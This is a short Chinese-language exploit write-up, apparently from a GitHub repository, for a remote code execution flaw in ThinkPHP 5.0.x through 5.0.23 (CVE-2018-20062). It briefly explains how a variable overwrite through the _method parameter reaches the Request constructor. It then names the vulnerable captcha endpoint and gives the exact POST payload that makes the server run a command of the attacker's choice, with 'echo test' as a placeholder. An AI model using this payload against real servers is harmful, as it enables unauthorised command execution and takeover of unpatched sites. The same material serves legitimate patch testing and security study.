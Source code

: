 ## 简介

该漏洞本质上是一个变量覆盖漏洞，通过传递_method参数覆盖了配置文件的method,导致可以访问Request类的任意函数而在Request的构造函数中又创建了恶意的成员变量，导致恶意命令被执行。

该网址中有详细原理

https://kylingit.com/blog/thinkphp-5.0.x-%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

## 漏洞影响版本

ThinkPHP5.0.x-5.0.23

## 漏洞影响地址

http://ip:port/index.php/?s=captcha

## 攻击方法

访问并截取数据包

![image-20240331223921602](CVE-2018-20062.assets/image-20240331223921602.png)

改为POST请求，然后添加

```http

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo test  //echo test部分为要执行的恶意命令
```

![image-20240331224010767](CVE-2018-20062.assets/image-20240331224010767.png)

